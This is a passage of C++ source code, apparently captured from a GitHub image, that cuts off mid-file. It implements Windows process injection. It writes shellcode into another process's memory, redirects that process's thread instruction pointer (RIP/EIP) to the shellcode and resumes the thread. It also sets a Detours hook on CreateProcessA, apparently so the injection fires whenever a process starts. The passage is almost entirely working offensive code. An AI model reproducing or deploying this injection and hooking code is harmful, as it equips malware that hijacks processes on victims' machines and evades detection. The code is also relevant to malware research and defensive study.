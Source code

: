 ```cpp
    // Write the decoded shellcode to the target process
    if (!pWriteProcessMemory(lpProcessInformation->hProcess, remoteMemory, encoded_shellcode, payload_size, NULL)) {
        printf("Failed to write shellcode to the remote process. Error: %d\n", GetLastError());
        return result;
    }
    printf("Shellcode successfully written to the target process.\n");

    CONTEXT context;
    context.ContextFlags = CONTEXT_CONTROL;

    // Get the context of the target thread
    if (!pGetThreadContext(lpProcessInformation->hThread, &context)) {
        printf("Failed to get thread context. Error: %d\n", GetLastError());
        return result;
    }

    // Set the instruction pointer (RIP/EIP) to the address of the shellcode
#ifdef _WIN64
    context.Rip = (DWORD64)remoteMemory;  // Set RIP to the shellcode address for 64-bit systems
#else
    context.Eip = (DWORD)remoteMemory;    // Set EIP for 32-bit systems
#endif

    // Set the modified thread context back to the target thread
    if (!pSetThreadContext(lpProcessInformation->hThread, &context)) {
        printf("Failed to set thread context. Error: %d\n", GetLastError());
        return result;
    }
    printf("Thread context set. Resuming thread...\n");

    // Resume the target thread to execute the shellcode
    if (pResumeThread(lpProcessInformation->hThread) == -1) {
        printf("Failed to resume the thread. Error: %d\n", GetLastError());
    }
    else {
        printf("Thread resumed. Shellcode should be executing now.\n");
    }

    return result;
}

BOOL InstallCreateProcessHook()
{
    if (DetourTransactionBegin() != NO_ERROR) return FALSE;
    if (DetourUpdateThread(GetCurrentThread()) != NO_ERROR) return FALSE;
    if (DetourAttach((PVOID*)&OriginalCreateProcessA, HookedCreateProcessA) != NO_ERROR) return FALSE;
    return DetourTransactionCommit() == NO_ERROR;
}

BOOL UninstallCreateProcessHook()
{
    if (DetourTransactionBegin() != NO_ERROR) return FALSE;
    if (DetourUpdateThread(GetCurrentThread()) != NO_ERROR) return FALSE;
    if (DetourDetach((PVOID*)&OriginalCreateProcessA, HookedCreateProcessA) != NO_ERROR) return FALSE;
    return DetourTransactionCommit() == NO_ERROR;
}

int main()
{
    if (!InstallCreateProcessHook())
```